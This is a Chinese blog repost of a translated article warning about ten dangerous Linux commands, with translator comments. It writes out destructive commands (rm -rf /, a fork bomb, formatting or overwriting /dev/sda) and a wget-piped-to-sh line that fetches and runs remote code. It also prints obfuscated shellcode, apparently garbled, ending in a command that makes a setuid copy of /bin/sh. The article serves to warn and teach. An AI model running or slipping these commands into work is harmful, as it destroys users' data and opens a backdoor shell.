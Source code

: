 ```yaml
---
layout: post
title: "永远不要在 Linux 执行的 10 个最危险的命令"
date: '2013-12-09T12:06:00.000+08:00'
author: Wenh Q
tags:
modified_time: '2013-12-09T12:06:38.271+08:00'
blogger_id: tag:blogger.com,1999:blog-4961947611491238191.post-5272589394057621915
blogger_orig_url: http://binaryware.blogspot.com/2013/12/linux-10.html
---
```


[永远不要在 Linux 执行的 10
个最危险的命令](http://www.oschina.net/news/46657/10-most-dangerous-commands-you-should-never-execute-on-linux)

Via [开源中国社区最新新闻](http://www.oschina.net/?from=rss)

Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正
在做什么时候。这篇文章并不打算引来你对Linux或linux
命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。（译注：当然，以下命令通常都是在root权限下才能将愚蠢发挥到无可救药；在普
通用户身份下，破坏的只是自己的一亩三分地。）
![100744lmgomq4g44wwv7mm.jpg](http://static.oschina.net/uploads/img/201312/08063106_Sreu.jpg)
1. rm -rf 命令
rm
-rf命令是删除文件夹及其内容最快的方式之一。仅仅一丁点的敲错或无知都可能导致不可恢复的系统崩坏。下列是一些rm
命令的选项。

-   rm　命令在Linux下通常用来删除文件。
-   rm -r
    命令递归的删除文件夹，甚至是空的文件夹。（译注：个人认为此处应该是说错了，从常识看，应该是"甚至是非空的文件夹"）
-   rm -f
    命令能不经过询问直接删除'只读文件'。（译注：Linux下删除文件并不在乎该文件是否是只读的，而只是在意其父目录是否有写权限。所以，-f这个参数
    只是表示不必一个个删除确认，而是一律悄悄删除。另外，原始的rm命令其实也是没有删除提示的，只是一般的发行版都会将rm通过别名的方式增加-i参数来
    要求删除确认，而-f则抑制了这个提示。）
-   rm -rf / :
    强制删除根目录下所有东东。（就是说删除完毕后，什么也没有了。。。）
-   rm -rf *:　强制删除当前目录的所有文件。
-   rm -rf . : 强制删除当前文件夹及其子文件夹。

从 现在起，当你要执行rm
-rf命令时请留心一点。我们可以在".bashrc"文件对'rm'命令创建rm
-i的别名，来预防用
'rm'命令删除文件时的事故，它会要求你确认每一个删除请求。（译注：大多数发行版已经这样做了，如果还没有，请这样做，并在使用-f参数前一定考虑好
你在做什么！译者本人有着血泪的教训啊。）
2. :(){:|:&};: 命令
这就是个fork 炸弹的实例。具体操作是通过定义一个名为
':'的函数，它会调用自己两次，一次在前台另一次运行在后台。它会反复的执行下去直到系统崩溃。
:(){:|:&};:
哦？你确认你要试试么？千万别在公司正式的[服务器]()上实验啊~~
3. 命令　> /dev/sda
上列命令会将某个'命令'的输出写到块设备/dev/sda中。该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。
4. mv 文件夹 /dev/null
这 个命令会移动某个'文件夹'到/dev/null。在Linux中 /dev/null 或 null
设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。（译注：这就是黑洞啊。当然，要说明的是，通过将文件夹移动到黑洞，并不能阻止
数据恢复软件的救赎，所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成——我知道你肯定有些东西想删除得干干净净的。）
# mv /home/user/* /dev/null
上列命令会将User目录所有内容移动到/dev/null，这意味着所有东西都被'卷入'黑洞　(null)之中。
5. wget http://malicious_source -O- | sh
上列命令会从一个（也许是）恶意源下载一个脚本并执行。Wget命令会下载这个脚本，而sh会（无条件的）执行下载下来的脚本。
注意:
你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。（译注：所以，你真的知道你在做什么吗？当遇到这种需要是，我的做法是，先wget下来，然后我去读一读其中到底写了些什么，然后考虑是否执行。）
6. mkfs.ext3 /dev/sda
上列命令会格式化块设备'sda'，你无疑知道在执行上列命令后你的块设备([硬盘]()驱
动器)会被格式化，崭新的!没有任何数据，直接让你的系统达到不可恢复的阶段。（译注：通常不会直接使用/dev/sda这样的设备，除非是作为raw设
备使用，一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁
灭性的，上面的数据都会被蒸发了。）
7. > file
上列命令常用来清空文件内容（译注：通常也用于记录命令输出。
不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。另外，我想你可能真正想用的是
">>"，即累加新的输出到文件，而不是刷新那个文件。）。如果用上列执行时输入错误或无知的输入类似
">xt.conf"　的命令会覆盖配置文件或其他任何的系统配置文件。
8. ^foo^bar
这个命令在我们[十个鲜为人知的 Linux 命令 - Part
3](http://linux.cn/article-2284-1.html)中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用foobar命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。（译注：事实上，这种小技巧是译者认为的，少数史前时代遗留下来的无用而有害的"黑客"技巧。）
9. dd if=/dev/random of=/dev/sda
上列命令会向块设备sda写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入混乱和不可恢复的状态。（译注：记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。）
10. 隐藏命令
下面的命令其实就是上面第一个命令 (rm
-rf)。这里的代码是隐藏在十六进制里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你的根分区。
这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。
char esp[] __attribute__ ((section(".text"))) /* e.s.prelease */=
"xebx3ex5bx31xc0x50x54x5ax83xecx64x68″"xffxffxffxffx68xdfxd0xdfxd9x68x8dx99″"xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7″"x56x04xf7x56x08xf7x56x0cx83xc4x74x56″"x8dx73x08x56x53x54x59xb0x0bxcdx80x31″"xc0x40xebxf9xe8xbdxffxffxffx2fx62x69″"x6ex2fx73x68x00x2dx63x00″"cp
-p /bin/sh /tmp/.beyond; chmod 4755/tmp/.beyond;";
注意:
不要在你的或你的同学或学校的[电脑]()里的Linux终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章作者和Tecmint概不负责。（译注：译者和转载网站也不负责~！）
今天就到此为止吧，我会很快回来这里，同时带上另一篇你们喜欢的文章。到那时请继续关注和访问Tecmint。如果你知道任何其他危险的Linux命令，也想添加到我们的列表中，请通过评论留言给我们同时也别忘了留下你的宝贵意见。
via:
[http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/](http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/)
译者：[Luoxcat](https://github.com/Luoxcat)
校对：[wxy](https://github.com/wxy)
本文由 [LCTT](https://github.com/LCTT/TranslateProject)
原创翻译，[Linux中国](http://linux.cn/)
